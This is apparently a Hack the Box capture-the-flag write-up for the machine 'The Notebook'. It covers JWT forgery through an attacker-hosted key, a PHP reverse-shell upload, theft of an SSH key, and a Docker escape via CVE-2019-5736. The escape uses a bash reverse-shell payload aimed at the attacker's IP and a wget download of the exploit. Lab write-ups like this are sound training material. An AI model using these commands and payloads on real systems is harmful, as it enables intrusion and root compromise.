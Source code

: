 +++
author = "Nick"
categories = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
date = 2021-07-31T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2021/07/noetbook.png"
slug = "hack-the-box-the-notebook"
summary = "Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in"
tags = ["hack the box", "medium", "enum4linux", "JWT", "burpsuite", "docker", "runc", "reverse shell", "CVE-2019-5736"]
title = "Hack the Box - The Notebook"
url = "/hack-the-box-the-notebook"

+++


Welcome! Today's write-up is for the Hack the Box machine - The Notebook. This machine is listed as a medium difficulty Linux machine. It's pretty straight forward, so let's jump in.

As always, we start our enumeration with `nmap`. Here are our results:

```
Nmap scan report for 10.10.10.230
Host is up (0.053s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 86:df:10:fd:27:a3:fb:d8:36:a7:ed:90:95:33:f5:bf (RSA)
|   256 e7:81:d6:6c:df:ce:b7:30:03:91:5c:b5:13:42:06:44 (ECDSA)
|_  256 c6:06:34:c7:fc:00:c4:62:06:c2:36:0e:ee:5e:bf:6b (ED25519)
80/tcp    open     http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: The Notebook - Your Note Keeper
10010/tcp filtered rxapi
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing too crazy, only one obscure port - 10010. So we'll see what's being hosted on port 80.

When we visit the site, we see a basic landing page. We have two options, `Register` and `login`. When we click the register link, we are brought to a page to do just that.

![](/images/2021/07/image.png)

The login page is simliar as well.

![](/images/2021/07/image-1.png)

We don't see anything in the source for the pages, so we'll start some enumeration with `ffuf`. 

Command:
`ffuf -u http://10.10.10.230/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt`

We get back limited results.

```
login                   [Status: 200, Size: 1250, Words: 173, Lines: 31]
register                [Status: 200, Size: 1422, Words: 193, Lines: 33]
admin                   [Status: 403, Size: 9, Words: 1, Lines: 1]
logout                  [Status: 302, Size: 209, Words: 22, Lines: 4]
```

Now we'll load up `Burpsuite` and start looking at what the site is doing. Once we have that loaded up, we create an account. We now have access to a new section called Notes. During the authentication processes, we see an authentication cookie get passed:

![](/images/2021/07/image-2.png)

We know it's as `JWT` token due to it's formatting.

![](/images/2021/07/image-5.png)

The yellow portion is the `Header`, the green portion is the `payload` and the blue is the verification signature. 

Now if we take this data, and drop it into [JWT.io](https://jwt.io) we can see the decoded data:

![](/images/2021/07/image-6.png)

What's good is that we can see that the `privKey` value on the local machine. So we're going to try and create our own `JWT` token with an `admin_cap` variable set to `true`. There are a few ways to do this, in my case, quickly generating the value via the CLI was how I did it.

Commands:
`echo '{"typ":"JWT","alg":"RS256","kid":"http://10.10.14.15:7070/privKey.key"}' | base64`
The above will create our `Header` value on the token.

`echo '{"username":"bobbillby","email":"bob@rootflag.io","admin_cap":true}' | base64`
This will create the `Payload` value on the token.

Now we have two sets of token values, we need to create a key to match our signature portion.

Command:
`ssh-keygen -t rsa -b 4096 -m PEM -f privKey.key`

Then we can host that key on our local machine on the same ports:

Command:
`python -m SimpleHTTPServer 7070`

Now we can take our generated outputs from above, and paste them into JWT.io to get our proper admin cookie.

![](/images/2021/07/image-7.png)

Now armed with this value, we need to modify our current cookie session value. Simply open up our `Developer tools` and head over to the Storage tab. Here we can see the values of the cookies for this site:

![](/images/2021/07/image-8.png)

Let's add our new JWT token and refresh. We should now see an `Admin Panel` section in our header!

![](/images/2021/07/image-9.png)

In this section, we see that we can view notes and upload a file. This is probably where we're going to upload our reverse shell!

![](/images/2021/07/image-10.png)

I tend to always use [Pentest Monkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) shell. So, now we just upload it.

![](/images/2021/07/image-11.png)

Make sure you have a listener running before we view the file on the port you specified, otherwise you'll miss the connection.

![](/images/2021/07/image-12.png)

We then catch our shell! Awesome, a foothold. Now we need to start enumerating internally. We'll copy over `linpeas.sh` and see what we can find.

![](/images/2021/07/image-13.png)

We see an interesting entry in our `backups` location - `home.tar.gz`. So we'll view the contents of this file.

Command:
`tar -tvf home.tar.gz`

![](/images/2021/07/image-14.png)

We see an `.ssh` directory. So we're going to want to extract the files and copy the key to our local machine to see if it works.

Command:
`tar -xvf home.tar.gz -C /tmp/temp` <= We created this directory, you don't need to. You can use whatever path you want.

Now we can navigate to the .ssh key and snag our key.

![](/images/2021/07/image-15.png)

We can copy this over by whatever means you like. Then we try to `SSH` into the target as Noah using this key.

Commands:
`chmod 0400 noah-key`
`ssh -i noah-key noah@10.10.10.230`

Once we get in, we snag our `user.txt` flag!

![](/images/2021/07/image-16.png)

Now we're in as a user, we can enumerate a bit further with more priviledges. I always run `sudo -l` once I get onto a box, it usually has a good path forward.

![](/images/2021/07/image-17.png)

Since `linpeas.sh` is still on the machine, we'll re-run that to start. Shortly into the run, we find that `runc` is on the machine.

![](/images/2021/07/image-18.png)

Some googling around leads us to CVE-2019-5736. [Here's a run down](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/) of the CVE. It's not too hard to find a PoC for this CVE, we have [one here](https://github.com/Frichetten/CVE-2019-5736-PoC). We do meet the requirements for this PoC, we have root access to a container. 

First let's clone the repo down to our machine.

Command:
`git clone https://github.com/Frichetten/CVE-2019-5736-PoC`

Now we need to modify the `main.go` file in order to modify the payload. We're going to give the payload a shell back to us:

`#!/bin/bash \n bash -i >& /dev/tcp/10.10.14.15/6969 0>&1`

Now we can rebuild the application.

Command:
`go build main.go`

Now we can host a file server in this location.

Command:
`python3 -m SimpleHTTPServer 80`

We now want to gain a shell into our `Docker` container.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Now we'll download our compiled exploit.

Command:
`wget 10.10.14.15/main`

Now make it executable.

Command:
`chmod +x main`

Now we run the exloit.

Command:
`./main`

![](/images/2021/07/image-19.png)

Now to trigger this fully, we need to run another docker command, same as above.

Command:
`sudo /usr/bin/docker exec -it webapp-dev01 sh`

Once we run that, we should see our listener light up!

![](/images/2021/07/image-20.png)

There we have it, root access!

Another box down, semi-realistic as well. If you found the write-up useful, send some respect my way!

HTB Profile - https://app.hackthebox.eu/profile/95635



